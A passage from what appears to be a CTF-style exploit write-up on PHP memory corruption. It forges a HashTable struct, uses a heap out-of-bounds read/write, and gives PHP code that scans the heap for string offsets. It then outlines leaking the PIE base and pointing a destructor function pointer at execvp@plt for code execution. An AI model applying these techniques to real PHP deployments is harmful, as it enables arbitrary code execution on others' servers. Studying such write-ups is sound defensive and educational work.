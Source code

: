 Now we have two really powerful primitives: **1. Arbitrary forging of HashTable struct, 2. Heap out of bounds read/write**. 

There is one limitation though. The arbitrary forging of HashTable is actual partial, because the string payload (`val`) is at offset 0x18, and therefore we can only control the contents after offset 0x18. Luckily the function pointer (`pdestructor`) is at a offset higher than 0x18, but the first argument passed to the function pointer is a value located at offset 0x10. So we need to find a way to control the entire structure, and that is where the Heap OOB comes into play.

I used the Heap OOB by creating a pair of (string, array), (string, array) and overflowing the contents of another string from the preceding string. The distance between them was calculated via 'heap scanning'. The following code implements it. 

```php
// either 1 or 2 must be in front of the other
$marker1 = str_repeat(pwnlib_p32(0xcccccccc), 4);
$marker2 = str_repeat(pwnlib_p32(0xdddddddd), 4);

for ($i = 0; $i < 0x10; $i++) {
    $write_object1[$i] = $marker1[0];
    $write_object2[$i] = $marker2[0];
}

for ($i = 0; $i < 0x100000; $i++) {
    $slice1 = pwnlib_u64(substr($write_object1, $i*8, 0x8));
    $slice2 = pwnlib_u64(substr($write_object2, $i*8, 0x8));
    if ($slice1 == strlen($write_object2)) {
        if (substr($write_object1, $i*8+8, 0x10) == $marker2) {
            $offset = $i*8;
            print("[+] Found offset\n");
            break;
        }
    }
    if ($slice2 == strlen($write_object1)) {
        die("[!] I didn't assume this would happen");
    }
}
```

Basically it searches for a matching `strlen($string)` and string content to locate the other string. Since we don't know the order of allocation between the two strings we scan in both directions. 

Now rest is easy. Leak the PIE base by reading the original value of the function pointer. Then, set the arguments appropirately. Finally, change the function pointer to `execvp@plt` and trigger the destructor by dropping the reference.  

